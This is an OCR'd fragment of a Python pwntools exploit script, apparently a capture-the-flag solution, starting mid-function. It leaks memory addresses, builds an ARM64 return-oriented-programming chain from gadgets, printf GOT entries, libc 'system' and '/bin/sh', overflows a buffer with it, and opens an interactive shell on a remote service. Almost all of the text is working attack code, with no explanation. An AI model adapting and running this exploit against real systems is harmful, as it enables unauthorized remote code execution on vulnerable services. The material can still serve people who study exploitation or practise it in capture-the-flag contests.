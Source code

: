 ```python

    system = libc.symbols['system']
    binsh = next(libc.search("/bin/sh"))

    log.info("System -> "+hex(system))
    log.info("Binsh -> "+hex(binsh))

    libcgadget = libc.address + 0x63c0c

    name = p64(gadget2)
    name += p64(0)
    name += p64(0x10A9FC70042)
    name += p64(0)
    io.sendafter("input your name: ",name)
    lock(-2)
    show()
    io.recvuntil("name: ")
    leak2 = u64(io.recv(8))
    new_gadget = conv(gadget2, leak2)
    add(puts_plt)
    lock(-1)
    auth(-1)
    payload = "a"*0x28
    payload += flat([
        new_gadget, #pc
        0, #x29
        gadget1, #x30
        0, #x19
        1, #x20
        name_addr + 0x20, #x21
        printf_got, #x22
        printf_got, #x23
        printf_got, #x24
        libcgadget,
        libcgadget,
        libcgadget,
        libcgadget,
        libcgadget,
        libcgadget,
        libcgadget,
        libcgadget,
        libcgadget,
        system,
        system,
        binsh,
        binsh
    ])
    io.send(payload)

    io.interactive()

if __name__ == "__main__":
    io = remote(remote_ip, port)
    poc(io)
    pwn(io)
```
